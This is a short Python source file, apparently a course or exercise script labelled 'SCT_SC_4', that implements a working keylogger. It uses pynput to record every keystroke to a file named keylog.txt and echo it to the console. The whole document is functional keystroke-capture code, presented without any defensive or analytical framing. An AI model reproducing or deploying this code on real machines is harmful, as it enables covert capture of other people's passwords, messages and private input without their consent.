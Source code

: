 # SCT_SC_4
from pynput.keyboard import Listener
import os

LOG_FILE = "keylog.txt"

def log_key(key):
    try:
        key = key.char  # Get character for normal keys
    except AttributeError:
        key = str(key)  # Convert special keys to string
    
    with open(LOG_FILE, "a") as file:
        file.write(key + " ")
    
    print(key, end=" ", flush=True)  # Print to console

def main():
    print("[+] Keylogger Started. Press Ctrl+C to stop.")
    with Listener(on_press=log_key) as listener:
        try:
            listener.join()
        except KeyboardInterrupt:
            print("\n[+] Keylogger Stopped.")
            listener.stop()
            
if __name__ == "__main__":
    main()
